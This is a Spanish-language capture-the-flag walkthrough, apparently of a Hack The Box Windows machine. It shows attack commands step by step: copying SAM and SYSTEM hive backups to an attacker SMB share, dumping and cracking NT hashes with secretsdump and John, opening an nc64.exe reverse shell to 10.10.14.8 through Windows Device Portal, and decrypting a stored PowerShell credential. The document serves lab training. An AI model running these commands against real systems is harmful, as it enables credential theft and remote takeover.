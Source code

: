 Desde la maquina victima, nos creamos una unidad logica, la qual se conecta a nuestro recurso compartido

```bash
net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
dir x:\
dir C:\Temp
copy sam.backup x:\sam
copy system.backup x:\system
```

#### Crackeando los hashes NT con John {-}

Ahora intentamos dumpear los hashes de los usuarios con **secretsdump**.

```bash
secretsdump.py -sam sam -system system LOCAL
```

Hemos podido obtener los hashes NT de los usuarios del systema. Los copiamos y los metemos en un fichero llamado hashes.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=NT
```

Aqui hemos podido crackear el hash del usuario **app**

#### Creando una reverseshell desde Windows Device Portal {-}

Nos connectamos al portal de la web a la url `http://10.10.10.204:8080`. Aqui buscamos manera de ejecutar comandos como en Cualquier gestor
de contenido o panel de administracion. Y encontramos en el menu Processes un link llamado **Run command**.

Probamos con `echo %USERNAME%` y ejecuta el comando como el usuario app. Creamos un reverseshell.

1. Nos ponemos en escuchar por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el ncat previamente uploadeado en el systema

    ```bash
    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443
    ```

Ya somos el usuario app y intentamos ejecutar la operacion cryptografica para leer la flag.

```bash
cd C:\Data\app
powershell
(Import-CliXml -Path user.txt)
(Import-CliXml -Path user.txt).GetNetworkCredential()
(Import-CliXml -Path user.txt).GetNetworkCredential().password
```
